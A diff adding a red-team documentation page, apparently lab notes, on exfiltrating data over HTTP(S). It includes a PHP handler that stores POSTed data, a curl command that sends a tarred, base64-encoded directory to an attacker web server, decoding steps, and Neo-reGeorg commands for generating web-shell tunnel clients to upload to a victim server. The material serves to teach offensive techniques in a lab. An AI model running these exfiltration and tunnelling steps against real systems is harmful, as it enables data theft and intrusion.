

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/exfiltration/https.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/exfiltration/https.md
+++ b/source/docs/exfiltration/https.md
@@ -1 +1,84 @@
 # Exfiltrate using HTTP(S)
+
+Using the `HTTP/HTTPS` protocol to exfiltrate data from a victim to an attacker's machine requires an attacker
+to have control over a webserver with a server-side programming language installed and enabled. It is challenging
+to detect for the blue team if using the POST HTTP method in the data exfiltration (with the GET request, all
+parameters are registered into the log file).
+
+* POST requests are never cached
+* POST requests do not remain in the browser history
+* POST requests cannot be bookmarked
+* POST requests have no restrictions on data length
+
+## HTTP data exfiltration
+
+To exfiltrate data over the HTTP protocol:
+
+* An attacker sets up a web server with a data handler (`web.thm.com` and a `contact.php` page as a data handler).
+* A C2 agent or an attacker sends the data (using the `curl` command).
+* The webserver receives the data and stores it (`contact.php` receives the POST request and stores it into `/tmp`).
+* The attacker logs into the webserver to have a copy of the received data.
+
+## Webserver
+
+PHP snippet to handle POST requests via a file parameter and storing the received data in the `/tmp` directory as
+`http.bs64` file name:
+
+```text
+<?php
+if (isset($_POST['file'])) {
+        $file = fopen("/tmp/http.bs64","w");
+        fwrite($file, $_POST['file']);
+        fclose($file);
+   }
+?>
+```
+
+From the jumphost `ssh` into the `victim1.thm.com` machine with the given credentials:
+
+    thm@jump-box:~$ ssh thm@victim1.thm.com
+
+Check the data:
+
+    thm@victim1:~$ ls -l
+
+Send POST data via curl:
+
+    thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
+
+From the victim1 or jump machine, log in to the webserver, `web.thm.com`, and check the `/tmp` directory:
+
+    thm@victim1:~$ ssh thm@web.thm.com
+    thm@web:~$ ls -l /tmp/
+
+Fix the broken `http.bs64` file (broken due to the URL encoding over HTTP). Using the sed command, replace the spaces
+with `+` characters to make it a valid `base64` string:
+
+    thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64
+
+Restore the data:
+
+    thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
+
+## HTTPS communications
+
+One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server.
+Apply the same technique as used for HTTP on a web server with SSL enabled, all transmitted data will be encrypted.
+
+## HTTP Tunneling
+
+| ![HTTP tunnel](../../_static/images/http-tunnel.png) |
+|:--:|
+| With tunneling over the HTTP protocol technique other protocols are encapsulated and data can be sent <br>back and forth via the HTTP protocol. |
+
+Use a `Neo-reGeorg` tool to create a communication channel to access the internal network devices:
+
+Generate an encrypted client file to upload to the victim web server:
+
+    root@kali:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm
+
+The command generates encrypted tunneling clients with thm key in the `neoreg_servers/` directory. There are many
+extensions, including for PHP, ASPX, JSP, etc.
+
+Upload the `tunnel.php` file via the uploader machine. To access the uploader machine, visit
+`http://MACHINE_IP/uploader` or `https://LAB_WEB_URL.p.thmlabs.com/uploader` without the need for a VPN.
````
Also changed, not shown: source/docs/exfiltration/ssh.md (+25 -0 lines), source/_static/images/http-tunnel.png (added).
